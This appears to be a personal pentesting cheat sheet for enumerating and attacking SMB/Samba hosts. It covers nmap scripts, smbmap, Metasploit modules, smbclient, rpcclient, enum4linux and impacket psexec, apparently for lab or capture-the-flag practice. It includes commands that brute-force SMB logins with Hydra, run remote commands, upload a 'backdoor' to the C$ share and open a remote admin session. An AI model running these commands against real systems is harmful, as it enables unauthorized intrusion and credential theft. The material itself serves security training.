








# Nmap

- `nmap -sU --top-ports 25` : port 137, 138 are udp smb ports. check if open.

## Nmap enum scripts

- `nmap -sU --top-ports 25 <ip>`

  

- smb-protocols : list supported protocols
	- if v1 is enabled - EternalBlue exploit?
- smb-security-mode : guest account enabled?
- smb-os-discovery.nse : NetBIOS computer name and OS
- smb-enum-sessions : enum logged in users
- smb-enum-sessions --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-users.nse : list all users that exist on samba version

  

- smb-enum-shares : enum shares as guest
- smb-enum-shares,smb-ls --script-args smbusername=<user>,smbpassword=<pass> : Enumerating all the shared folders and drives then running the ls command on all the shared folders.
- smb-enum-shares --script-args smbusername=<user>,smbpassword=<pass>
	- if IPC$ share had RW perms - lets anon users enum shares, accounts etc
- smb-enum-users --script-args smbusername=<user>,smbpassword=<pass>: enum user acc on target sys
- smb-server-stats --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-domains --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-groups --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-services --script-args smbusername=<user>,smbpassword=<pass>

# SMBMAP

- Allows users to enumerate samba share
- Allows file upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- `smbmap -H <ip> -u guest -p "" -d <domain>` 

  

- `smbmap -H <ip> -u guest -p "" -d .`
- `smbmap -H <ip> -u <user> -p <pass> -x 'ipconfig'` : execute command on remote host
- `smbmap -H <ip> -u <user> -p <pass> -L` : list all drives (C: or D:)

     

- `smbmap -H <ip> -u <user> -p <pass> -r 'C$'` : list contents of C:\

   

- `smbmap -H <ip> -u <user> -p <pass> --upload '/root/backdoor' 'C$\backdoor'`
  
   

- `smbmap -H <ip> -u <user> -p <pass> --download 'C$\flag.txt'`

   

# Metasploit Modules

- auxiliary/scanner/smb/smb_version - exact version of smb
- auxiliary/scanner/smb/smb2 - smb2 protocol supported?
- auxiliary/scanner/smb/smb_enumusers
- auxiliary/scanner/smb/smb_enumshares
- auxiliary/scanner/smb/pipe_auditor : determine what named pipes are accessible over SMB  (req creds)
- auxiliary/scanner/smb/smb_login
- auxiliary/scanner/smb/smb_ms17_010 - eternalblue vuln tester
- exploit/windows/smb/psexec

# Hydra

- `hydra -l <user> -P <pass_wordlist> 192.212.251.3 smb`
	
# Nmblookup

- `nmblookup -A <ip>`

	 
	

# SMBclient

- `smbclient -L <ip> -N` : list sharenames and domains with no pass with anonymous connection.
- `smbclient -L <ip> -U <user>` : authenticate as a user with legit creds
- `smbclient //<ip>/public -N`
- `smbclient //<ip>/public -U <user>` 
	- smb> ls
	- smb> get flag

# RPCclient

- `rpcclient -U "" -N <ip>` : check anonymous login allowed - if no errors
- rpcclient $>
	- srvinfo : os version of samba server
	- enumdomgroups : enum domain groups
	- enumdomusers : enum domain users
	- lookupnames admin : get SID of user "admin"

# Enum4linux

- `enum4linux -o <ip>` : get os version
- `enum4linux -U <ip>` : enum users (use -u <user> -p <pass> for auth enum)
- `enum4linux -S <ip>` : enum shares
- `enum4linux -G <ip>` : enum domain groups
- `enum4linux -i <ip>` : get printer info'

	 
	
- `enum4linux -r -u "admin" -p "password" <ip>` : enum users via RID cycling. S-1-22-1-1003 etc.

# PSExec (Authenticated)

- cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop
- chmod +x psexec.py
- python3 psexec.py Administrator@ip
- this will provide remote session

# References

1. Samba (https://www.samba.org/)
2. smbclient (https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
3. rpcclient (https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)
4. nmblookup (https://www.samba.org/samba/docs/current/man-html/nmblookup.1.html)
5. enum4Linux (https://tools.kali.org/information-gathering/enum4linux)
6. THC Hydra (https://tools.kali.org/password-attacks/hydra)
7. smbmap (https://tools.kali.org/information-gathering/smbmap)
8. Metasploit Module: SMB Session Pipe Auditor (https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe_auditor)